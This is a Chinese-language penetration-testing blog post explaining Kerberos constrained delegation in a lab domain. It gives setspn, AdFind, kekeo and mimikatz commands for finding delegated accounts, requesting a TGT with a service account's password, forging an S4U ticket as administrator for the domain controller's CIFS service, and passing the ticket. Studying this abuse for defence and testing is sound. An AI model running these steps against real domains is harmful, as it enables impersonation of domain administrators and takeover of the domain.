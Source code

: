 ```yaml
---
title: "Kerberos协议之约束委派"
date: 2020-12-12T12:42:02+08:00
draft: false
tags:
- Kerberos
series:
- Windows协议
categories:
- 渗透测试
---
```



上文说到非约束委派，本文来说约束委派。
<!--more-->

# 概述
因为非约束委派的不安全性，约束委派应运而生。在2003之后微软引入了非约束委派，对Kerberos引入S4U，包含了两个子协议S4U2self、S4U2proxy。S4U2self可以代表自身请求针对其自身的Kerberos服务票据(ST)，S4U2proxy可以以用户的名义请求其它服务的ST，约束委派就是限制了S4U2proxy扩展的范围。

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/18d619ca-7f69-8093-cc99-490ea33720fe.png)

具体过程是收到用户的请求之后，首先代表用户获得针对服务自身的可转发的kerberos服务票据(S4U2SELF)，拿着这个票据向KDC请求访问特定服务的**可转发的TGS**(S4U2PROXY)，并且代表用户访问特定服务，而且只能访问该特定服务。


来看下实际的利用
# 利用
先配置约束委派环境。新建一个sql用户，并且加上spn表示其为服务用户。

```
setspn -A MSSQLSvc/DM.test.local:1433 sql
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/c06ef696-b59d-db86-23cf-e9d90778fef3.png)

加上spn之后委派的选项卡才会出现，因为只有服务账户和计算机账户才可以被委派。

在这里配置上dc的cifs可以被sql用户所委派。需要注意的是**使用任何身份验证协议**。
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/22a2c77b-cbcc-a1ea-7213-41a77141c69c.png)

查找约束委派的用户

```
AdFind.exe -b dc=test,dc=local -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" -dn
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/c912960d-1b4f-fac5-7e6c-8d9f8b611739.png)

查找约束委派的主机

```
(&(samAccountType=805306368)(msds-allowedtodelegateto=*))
```

约束委派需要知道sql服务账户的密码或hash，此时在DM机器中使用kekeo申请tgt。

```
tgt::ask /user:sql /domain:test.local /password:test123!@#
```

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/7434440a-4b87-4cb2-6a3a-a2082cd77753.png)

使用该tgt通过s4u伪造`administrator@test.local`去访问dc的cifs服务。

```
tgs::s4u /tgt:TGT_sql@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi /user:administrator /service:cifs/dc.test.local
```

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/ae9b48a5-09d1-902f-fe93-25033723971d.png)

生成了两个tgs

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/b634e62c-53b8-4950-98dc-500bb1f15cd8.png)

通过mimikatz使用cifs的tgs票据进行ptt

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/c4b89d80-3e74-9e3a-162a-8b4f97deddd4.png)

实战中的利用需要知道配置了委派用户的密码或hash。

# 参考
1. https://xz.aliyun.com/t/7217
2. https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/1fb9caca-449f-4183-8f7a-1a5fc7e7290a
3. https://daiker.gitbook.io/windows-protocol/kerberos/2


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**
